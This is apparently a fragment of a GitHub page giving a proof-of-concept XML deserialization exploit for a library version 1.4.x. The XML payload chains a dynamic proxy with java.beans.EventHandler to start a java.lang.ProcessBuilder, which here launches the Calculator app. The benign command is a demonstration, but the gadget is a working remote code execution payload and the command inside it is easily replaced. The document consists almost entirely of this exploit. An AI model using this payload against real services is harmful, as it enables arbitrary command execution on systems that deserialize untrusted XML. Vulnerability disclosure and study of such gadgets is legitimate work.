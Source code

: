 1.4.x

#### POC

```xml
<tree-map>
    <entry>
        <string>key</string>
        <string>value</string>
    </entry>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
            						<string>open</string>
            						<string>/System/Applications/Calculator.app</string>
                    </command>
                </target>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```